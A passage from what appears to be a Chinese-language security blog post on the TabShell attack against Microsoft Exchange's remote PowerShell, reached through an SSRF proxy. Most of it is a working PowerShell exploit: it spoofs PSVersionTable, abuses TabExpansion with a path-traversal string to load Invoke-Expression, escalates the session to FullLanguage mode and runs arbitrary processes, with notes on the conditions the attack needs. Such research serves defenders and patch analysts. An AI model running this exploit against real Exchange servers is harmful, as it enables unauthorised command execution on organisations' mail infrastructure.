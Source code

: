```
$ps.start()
[string] $Out = $ps.StandardOutput.ReadToEnd();
$Out
```

需要注意以下问题：

- 需要域内主机上执行
- 需要fqdn，不支持IP
- 连接url可以选择`http`或`https`
- 认证方式可以选择`Basic`或`Kerberos`

### 2.通过SSRF漏洞调用Exchange Powershell，实现TabShell

这里需要通过Flask建立本地代理服务器，方法可参考之前的文章[《ProxyShell利用分析3——添加用户和文件写入》](https://3gstudent.github.io/ProxyShell%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%903-%E6%B7%BB%E5%8A%A0%E7%94%A8%E6%88%B7%E5%92%8C%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5)

Powershell命令示例：

```
$uri = "http://127.0.0.1:80/PowerShell/" 
$username = "whatever"
$password = "whatever"
 
$secure = ConvertTo-SecureString $password -AsPlainText -Force 
$creds  = New-Object System.Management.Automation.PSCredential -ArgumentList ($username, $secure)
$version = New-Object -TypeName System.Version -ArgumentList "2.0"
$mytable = $PSversionTable
$mytable["WSManStackVersion"] = $version
$option = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck -ApplicationArguments @{PSversionTable=$mytable}
$sessionOption = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck -ApplicationArguments @{PSversionTable=$mytable}
$Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri $uri -Credential $creds -Authentication Kerberos -AllowRedirection -SessionOption $sessionOption
Invoke-Command -Session $session -ScriptBlock { 
    TabExpansion -line ";../../../../Windows/Microsoft.NET/assembly/GAC_MSIL/Microsoft.PowerShell.Commands.Utility/v4.0_3.0.0.0__31bf3856ad364e35/Microsoft.PowerShell.Commands.Utility.dll\Invoke-Expression" -lastWord "-test" 
}
invoke-expression "`$ExecutionContext.SessionState.LanguageMode='FullLanguage'"
$ps = new-object System.Diagnostics.Process
$ps.StartInfo.Filename = "ipconfig"
$ps.StartInfo.Arguments = " /all"
$ps.StartInfo.RedirectStandardOutput = $True
$ps.StartInfo.UseShellExecute = $false
$ps.start()
[string] $Out = $ps.StandardOutput.ReadToEnd();
$Out
```

## 0x03 Python实现
---
